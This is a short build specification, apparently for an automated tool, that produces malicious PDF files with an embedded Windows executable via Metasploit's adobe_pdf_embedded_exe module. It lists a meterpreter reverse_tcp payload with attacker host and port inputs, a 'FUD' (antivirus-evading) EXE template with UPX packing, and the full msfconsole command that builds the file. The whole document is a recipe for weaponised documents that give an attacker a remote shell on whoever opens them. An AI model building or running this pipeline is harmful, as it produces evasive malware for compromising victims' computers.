# Contract — PDF Embedded EXE

Purpose
- Produce PDF artifacts containing an embedded Windows executable using Metasploit's adobe_pdf_embedded_exe module.

Inputs
- base_pdf_path: path to original PDF (optional; if not provided, a default template is used)
- payload: enum (e.g., windows/meterpreter/reverse_tcp)
- lhost: IPv4/hostname
- lport: 1..65535
- exe_template: enum (c_psh, c_only) — template to build the EXE
- output_name: string

Outputs
- artifacts:
  - output/<output_name>.pdf
  - output/<output_name>.exe (used for embedding)
  - logs/build.log
  - status.json

Process (Headless)
1) Build EXE via Windows FUD template pipeline into task output.
2) Invoke msfconsole -x 'use windows/fileformat/adobe_pdf_embedded_exe; set EXE::Custom <exe>; set FILENAME <name>.pdf; set INFILENAME <base>; exploit; exit -y'.
3) Move artifact from ~/.msf4/local to task output.
4) Emit status.json with metadata and checksums.

Preconditions
- msfconsole available
- mingw/upx if exe_template requires compilation

Failure Cases
- Base PDF invalid/missing
- Module failure

Security Notes
- Do not attempt to open produced PDFs on the orchestrator host.